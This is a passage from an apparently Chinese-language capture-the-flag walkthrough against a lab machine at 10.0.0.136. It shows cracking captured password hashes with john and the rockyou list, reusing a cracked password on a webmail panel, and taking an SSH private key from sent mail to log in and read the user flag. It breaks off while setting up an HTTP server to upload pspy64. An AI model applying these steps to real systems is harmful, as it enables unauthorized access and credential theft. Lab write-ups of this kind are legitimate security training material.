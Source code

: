 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到3组帐号密码，将密码保存好拿来暴破

```
vi pass.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

暴破出runy的密码，切换到ruby账号试试

```
su runy
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

密码错误，可能是邮箱的后台密码，登录试试

```
https://10.0.0.136/mail/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，并且在已发邮件中找到了key内容，把key保存下来登录ssh

```
vi id_rsa  
chmod 600 id_rsa  
ssh ruby@10.0.0.136 -i id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登录成功，收集下敏感信息

```
ls  
cat userflag.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到user.txt，找找提权信息，上传个pspy64检查下后台有没有程序在运行

1。攻击机开启http服务

```
python3 -m http.server
```

